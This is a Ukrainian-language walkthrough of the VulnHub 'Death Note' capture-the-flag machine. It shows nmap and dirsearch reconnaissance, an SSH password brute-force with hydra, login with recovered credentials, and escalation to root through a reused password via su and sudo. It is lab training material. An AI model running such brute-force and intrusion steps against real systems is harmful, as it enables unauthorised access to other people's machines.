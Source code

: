 # Death Note

### https://www.vulnhub.com/entry/deathnote-1,739/

### 1. Перша команда яку ми використовуємо —  

```bash
   sudo netdiscover -r 10.0.2.0/24
````

```bash
   nmap -Pn -V 10.0.2.X
````

* Параметр `-Pn` вимикає пінг — подібно `nmap` не перевіряє чи жива ціль за допомогою ping або SYN-сканування. Це корисно, коли хост фільтрує або блокує ping-запити.
* Параметр `-V` — виводиться більш "підсилена" інформація під час сканування.
* Бачимо два відкритих порти: **22** та **80**.
* Робити брутфорс на ssh (22) не має сенсу, до поки ми не маємо а ні **логіну**, а ні **паролю**.
* В браузері відкриваємо 10.0.2.Х з метою розуміння, який саме сервіс працює на **80** порті.
* Як результат маємо помилку, але маємо і підказку у вигляді доменного імені **deathnote.vuln**:
![alt text](./DN_src/image.png)
* Робимо висновок, що нам потрібно зарезолвити це доменне ім'я, а це можно зробити за допомогою локального файла **hosts**, яким можна скористатись, як локальною альтернативою DNS.


### 2. Для пошуку **hosts** застосовуємо команду:

   ```bash
   whereis hosts
   ```

   *  `whereis` — команда, яка шукає файли, пов'язані з певним словом.

### 3. Далі заходимо у текстовий редактор nano з правами адміністратора (root)

   ```bash
   sudo nano /etc/hosts
   ```

   * Вводимо IP:

     ```
     10.0.2.X deathnote.vuln
     ```

---
![alt text](./DN_src/image-1.png)


### 4. Перехід на веб-сторінку

* У HTML-коді знаходимо посилання на директорію, де була зберігається картинки, в назві яких міститься "kira".
![alt text](./DN_src/image-2.png)

* Заходимо за цією адресою, бачимо багато файлів, і два з них у форматі `.txt` з іменами **notes** та **user**.

---

### 5. Для сканування директорій використовуємо

```bash
dirsearch -u http://deathnote.vuln/
```
* або користуємось аналогами (**dirb** (присутня в Калі по замовчанню) або **gobuster**)

> Для використання її потрібно попередньо встановити командою:

```bash
sudo apt install dirsearch
```

* Параметр `-u` — вказує URL сайту, на якому потрібно провести brute-force директорій та файлів.

---

#### Ця команда вивела нам файли, серед них ми знайшли

```
/robots.txt  
/wordpress/wp-login.php
```

* Заходимо на сторінку з `/robots.txt`, нас зустрічає текст, який каже, що нам потрібно зайти на `/important.jpg`.
![alt text](./DN_src/image-3.png)
* Але не знайшовши там нічого, використовуємо команду:

```bash
curl http://deathnote.vuln/important.jpg
```
![alt text](./DN_src/image-4.png)


* Це команда — інструмент для роботи з HTTP(S)-запитами, дозволяє завантажити вміст за вказаним URL.
* Отримуємо відповідь, у якій згадуються `user.txt` — може бути ідентифікатор,
  а також `notes.txt` — може бути список паролів. Шлях до каталогу, де знаходяться ці файли ми встановили, коли знайшли "kira".jpg за допомогою інспектора в браузері.
* Як результат переходимо за шляхом та маємо наступне:
![alt text](./DN_src/image-5.png)

* зберігаємо собі **notes.txt** та **user.txt**.

### 6. Скористаємось інструментом дл брут-форсу логінів і паролів `hydra`

```

hydra -L user.txt -P notes.txt 10.0.2.6 ssh

```

- Параметр `-L` — вказує файл із логінами.
- Параметр `-P` — вказує файл із паролями.

(У цьому випадку, при використанні інструменту `medusa` — більш швидкісного, виявилася проблема спочатку із считанням файлів, потім із підбором значень)

* Як результат, маємо логін та пароль для ssh з'єднання:
![alt text](./DN_src/image-6.png)

#### Заходимо через ssh порт з отриманими логіном і паролем (l:death4me)
```bash
ssh l@10.0.2.X
```

#### Після логінування через ssh в домашньому каталозі cеред файлів знаходимо `user.txt`, 
![alt text](./DN_src/image-7.png)

#### Переглядаємо його та бачимо текст, написаний мовою `brainfuck`.
* Перекодовуємо його за допомогою `dcode.fr`.
#### *i think u got the shell , but you wont be able to kill me -kira*


#### 7. Шукаємо по всієї файловій системі файли та директорії, які мають в назві "kira":


![alt text](./DN_src/image-8.png)

#### Переміщуємось по директоріях командами:
```
cd ..
cd kira
cd /opt
cd kira-case

```

та переглядаємо файл:
```

case-file.txt

```

#### В цьому файлі нам кажуть, що у директорії `fake-notebook-rule` щось є.

- При перегляді файлу `case.wav` бачимо інструкційний код, перекодовуємо його у текст — отримуємо:

```

password: kiraisevil

```
![alt text](./DN_src/image-9.png)

### 8. Переходимо на юзера kira командою:

```

su kira

```
> Ця команда використовується для зміни користувача в поточній сесії.


та вводимо свіжо отриманий пароль.

### 9. Спробуємо використати той самий пароль для отримання суперкористувача:

```

sudo -i

```

*Успішний вхід!*

- Змінюємо директорію:

```

cd /root

```

та переглядаємо файли:

```

ls

```

#### Знаходимо файл `root.txt` та виводимо.

![alt text](./DN_src/image-10.png)

---

